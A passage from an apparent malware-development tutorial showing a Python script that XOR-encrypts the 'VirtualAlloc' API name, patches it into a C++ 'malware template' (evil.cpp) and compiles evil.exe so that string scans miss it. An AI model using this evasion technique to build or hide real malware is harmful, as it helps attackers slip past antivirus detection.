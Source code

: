```python
        ordd = lambda x: x if isinstance(x, int) else ord(x)
        output_str += chr(ordd(current) ^ ord(current_key))
    return output_str

## encrypting
def xor_encrypt(data, key):
    ciphertext = xor(data, key)
    ciphertext = '{ 0x' + ', 0x'.join(hex(ord(x))[2:] for x in ciphertext) + ' };'
    print (ciphertext)
    return ciphertext, key

## key for encrypt/decrypt
plaintext = "VirtualAlloc"
my_secret_key = "meowmeow"

## encrypt VirtualAlloc
ciphertext, p_key = xor_encrypt(plaintext, my_secret_key)

## open and replace our payload in C++ code
tmp = open("evil.cpp", "rt")
data = tmp.read()
data = data.replace('unsigned char cVirtualAlloc[] = { };', 'unsigned char cVirtualAlloc[] = ' + ciphertext)
tmp.close()
tmp = open("evil-enc.cpp", "w+")
tmp.write(data)
tmp.close()

## compile
try:
    cmd = "x86_64-w64-mingw32-gcc evil-enc.cpp -o evil.exe -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc >/dev/null 2>&1"
    os.system(cmd)
except:
    print ("error compiling malware template :(")
    sys.exit()
else:
    print (cmd)
    print ("successfully compiled :)")
```

Compile and check.
```bash
strings -n 8 evil.exe | grep "Virtual"
```

![strings virtual](/assets/images/3/2021-09-06_18-49.png){:class="img-responsive"}

and as you can see no `VirtualAlloc` in strings check.
This is how you can actually obfuscate any function in your code. It can be `VirtualProtect` or `RtlMoveMemory`, etc.
